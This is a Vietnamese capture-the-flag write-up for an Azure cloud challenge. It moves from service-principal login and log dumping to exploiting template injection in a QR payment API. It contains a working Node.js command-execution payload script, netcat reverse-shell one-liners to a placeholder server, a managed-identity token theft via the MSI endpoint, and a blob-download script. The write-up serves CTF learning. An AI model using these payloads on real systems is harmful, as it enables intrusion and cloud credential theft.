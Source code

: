 ## Hunter

### 1. Login Azure with Service Principal
- Quăng cái JSON của BTC cho Copilot hỏi làm sao login thì được chỉ
```
az login --service-principal -u "8ea2379a-b4ef-41e7-bc64-cbf17c96a5d6" -p "[secret]" --tenant "f86939d1-b472-486f-83e9-b0a4b3fa6fec"
```
- Hỏi tiếp `how to list all my roles`
```
~ ❯ az role assignment list \                                                                                  20:06:51
  --assignee 8ea2379a-b4ef-41e7-bc64-cbf17c96a5d6 \
  --all \
  --include-inherited \
  --include-groups \
  --output table
Principal                             Role                  Scope
------------------------------------  --------------------  ---------------------------------------------------------------------------------------------------------------------------------------
8ea2379a-b4ef-41e7-bc64-cbf17c96a5d6  Log Analytics Reader  /subscriptions/1f1b2402-8543-4100-9627-59fa5ce96944/resourceGroups/qrzure/providers/Microsoft.OperationalInsights/workspaces/qrweb-logs
```
- Hỏi tiếp để tải hết log trong 30 ngày
```
#!/bin/bash

# --- Configuration ---
RESOURCE_GROUP="qrzure"
WORKSPACE_NAME="qrweb-logs"
TIME_RANGE="P30D" # Last 30 Days

# --- Get Workspace ID from the provided details ---
WORKSPACE_ID=$(az monitor log-analytics workspace show \
  --resource-group $RESOURCE_GROUP \
  --name $WORKSPACE_NAME \
  --query customerId \
  -o tsv)

if [ -z "$WORKSPACE_ID" ]; then
    echo "Error: Could not find Workspace ID for '$WORKSPACE_NAME'."
    exit 1
fi

echo "Fetching logs from Workspace: $WORKSPACE_NAME"

# --- Get all table names with data in the time range ---
# The JMESPath query below is corrected to use escaped double quotes for the key "$table"
TABLES=$(az monitor log-analytics query --workspace $WORKSPACE_ID --analytics-query "search * | summarize by \$table" --timespan $TIME_RANGE --query "[].\"\$table\"" -o tsv)

# --- Loop through each table, query logs, and convert to CSV ---
for table in $TABLES; do
    echo "Processing table: $table..."
    FILENAME="logs_${table}_last_30_days.csv"

    # Query logs and pipe the JSON output directly to jq for CSV conversion
    az monitor log-analytics query --workspace $WORKSPACE_ID --analytics-query "$table" --timespan $TIME_RANGE -o json | \
    jq -r '(.[0] | keys_unsorted) as $keys | $keys, map([.[$keys[]]])[] | @csv' > $FILENAME

    echo "==> Saved logs to $FILENAME"
done

echo "Script finished. All log files have been downloaded and converted to CSV."
```

### 2. Find the attack path in AppRequests logs 
- Xài Excel check trong logs thì thấy vài request lạ với website [qrweb-apim.azure-api.net](https://qrweb-apim.azure-api.net)
- API `/api/payment` cho phép tạo QR và lưu trên Cloud
- API `/api/scan` cho phép scan QR từ link
- Từ log thấy biến message lúc tạo QR với API /api/payment` có thể chèn command ở field `message`
- Nhờ Copilot viết ra cái script Python gọi cho lẹ, và chạy vài lệnh để biết OS, Env vars
```
import html
import json
import requests


def exec_command(command):
    url = "https://qrweb-apim.azure-api.net/api/payment"
    payload = json.dumps({
        "amount": 1,
        "recipient": "cimb",
        "message": f"<%= (global.constructor.constructor('return process')()).mainModule.require('child_process').execSync(\"{command}\").toString() %>"
    })

    headers = {
        'Content-Type': 'application/json',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36 Edg/140.0.0.0'
    }
    response = requests.request("POST", url, headers=headers, data=payload)
    response.raise_for_status()
    data = response.json()
    qrUrl = data['qrUrl']

    print(qrUrl)
    print("=================================")

    scan_url = "https://qrweb-apim.azure-api.net/api/scan"
    files = {
        'imageUrl': (None, qrUrl)
    }
    headers.pop('Content-Type')
    scan_resp = requests.post(scan_url, headers=headers, files=files)

    try:
        message = scan_resp.json()["message"]
        print(html.unescape(message))

        scan_message = scan_resp.json()["scanMessage"]
        print(html.unescape(scan_message))
    except Exception:
        print(scan_resp.text)
    print("=================================")


if __name__ == '__main__':
    exec_command('printenv')
    exec_command('cat /etc/os-release')
    exec_command('ls -lia /bin/')
    exec_command('ls -lia /usr/bin/')
```

### 3. Azure MSI Endpoint
- Thấy gì đó lạ lạ trong env nên check hỏi Copilot: `what is MSI_ENDPOINT and MSI_SECRET, then how to use`
```
MSI_ENDPOINT=http://localhost:12356/msi/token
```
- Chạy hoài không được `wget` nên đành tìm cách RCE: `how to remote control Alpine Linux v3.21 with a remote server and nc`
```
nc <REMOTE_SERVER_IP> 4444 -e /bin/sh
mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | nc <REMOTE_SERVER_IP> 4444 > /tmp/f
```
- Chạy lại command wget và được cái token vô Azure Storage
```
wget -qO- --header="X-IDENTITY-HEADER: 5557107a-b00b-4a7c-84df-3670932d1b39" "http://localhost:12356/msi/token?resource=https://storage.azure.com/&client_id=1fe7dc1a-a88e-481f-a7df-789b126a9b49&api-version=2019-08-01"
```

### 4. Get flags from Azure Storage with checking versions and soft-deleted
- Dù hỏi Copilot và thử hết cách nhưng mình chỉ có nửa cái flag và một số cred thôi: **DF25{d4e9e6814f***
- Script để tải hết flag phía dưới (nhớ set cái ACCESS_TOKEN vô env):
```
#!/bin/bash

# ==== CONFIGURATION ====
ACCOUNT_NAME="qrwebsax3zov6py"
CONTAINER_NAME="internal"
API_VERSION="2021-08-06"
OUTPUT_DIR="./downloads"

# Check if ACCESS_TOKEN is set
if [ -z "$ACCESS_TOKEN" ]; then
  echo "[ERROR] ACCESS_TOKEN environment variable is not set."
  echo "Run: export ACCESS_TOKEN=$(az account get-access-token --resource https://storage.azure.com/ --query accessToken -o tsv)"
  exit 1
fi

mkdir -p "$OUTPUT_DIR"

# ==== STEP 1: Get list of .json blobs with versions ====
echo "[*] Fetching blob list with versions..."
curl -s -X GET \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "x-ms-version: $API_VERSION" \
  "https://${ACCOUNT_NAME}.blob.core.windows.net/${CONTAINER_NAME}?restype=container&comp=list&include=versions" \
| xmllint --format - \
| awk '/<Name>.*\.json<\/Name>/ {name=$0; getline; version=$0; gsub(/<\/?Name>/,"",name); gsub(/<\/?VersionId>/,"",version); print name, version}' \
> blob_versions.txt

echo "[*] Found $(wc -l < blob_versions.txt) blob versions to download."

# ==== STEP 2: Download each version ====
while read -r name version; do
    safe_name=$(echo "$name" | tr '/' '_')
    echo "[*] Downloading $name (version: $version)"
    curl -s -X GET \
      -H "Authorization: Bearer $ACCESS_TOKEN" \
      -H "x-ms-version: $API_VERSION" \
      "https://${ACCOUNT_NAME}.blob.core.windows.net/${CONTAINER_NAME}/${name}?versionid=${version}" \
      -o "${OUTPUT_DIR}/${safe_name}_${version}.json"
done < blob_versions.txt

echo "[✓] All downloads complete. Files saved in: $OUTPUT_DIR"
```

## Thanks CBJS!
